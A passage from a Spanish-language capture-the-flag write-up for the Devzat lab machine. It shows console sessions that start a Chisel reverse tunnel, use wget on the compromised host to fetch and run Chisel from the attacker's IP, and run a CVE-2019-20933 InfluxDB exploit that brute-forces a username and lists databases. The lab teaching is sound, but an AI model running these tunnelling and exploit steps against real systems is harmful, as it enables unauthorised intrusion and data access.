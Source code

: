 Una vez tengamos listo el exploit, levantamos un servidor tunelizado con **`Chisel`**

```console
p3ntest1ng:~$ chisel server -p 9999 --reverse
2022/01/24 07:42:59 server: Reverse tunnelling enabled
2022/01/24 07:42:59 server: Fingerprint wZAOi31QDp7a44JtK3nepyKtFi9NPsajWkV5E2qpouo=
2022/01/24 07:42:59 server: Listening on http://0.0.0.0:9999
```

Nos descargamos en nuestra máquina la última release de **`Chisel`** desde su Github y levantamos un servidor http:

```console
p3ntest1ng:~$ sudo python3 -m http.server 80
```

En la máquina Devzat nos creamos un directorio en **`/tmp`** con el nombre que queramos.
Nos descargamos el archivo, lo descomprimimos, le damos permisos de ejecución y nos conectamos al servidor tunelizado que levantamos anteriormente:

```console
patrick@devzat:~$ cd /tmp && mkdir any0ne; cd any0ne
patrick@devzat:/tmp/any0ne$ wget http://10.10.15.113/chisel_1.7.6_linux_amd64.gz
--2022-01-24 07:09:00--  http://10.10.15.113/chisel_1.7.6_linux_amd64.gz
Connecting to 10.10.15.113:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3288156 (3.1M) [application/gzip]
Saving to: ‘chisel_1.7.6_linux_amd64.gz’

chisel_1.7.6_linux_amd64.gz     100%[==================>]   3.14M  3.03MB/s    in 1.0s    

2022-01-24 07:09:02 (3.03 MB/s) - ‘chisel_1.7.6_linux_amd64.gz’ saved [3288156/3288156]
patrick@devzat:/tmp/any0ne$ gunzip chisel_1.7.6_linux_amd64.gz
patrick@devzat:/tmp/any0ne$ chmod +x chisel_1.7.6_linux_amd64
patrick@devzat:/tmp/any0ne$ mv chisel_1.7.6_linux_amd64 chisel
patrick@devzat:/tmp/any0ne$ ./chisel client 10.10.15.113:9999 R:8086:127.0.0.1:8086
2022/01/24 07:20:17 client: Connecting to ws://10.10.15.113:9999
2022/01/24 07:20:18 client: Connected (Latency 48.760893ms)
```

Ya tenemos todo listo para ejecutar el exploit desde nuestra máquina:

```console
p3ntest1ng:~$ python3 __main__.py
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  
CVE-2019-20933

Insert ip host (default localhost): 
Insert port (default 8086): 
Insert influxdb user (wordlist path to bruteforce username): /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt

Start username bruteforce
[x] root
[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal
```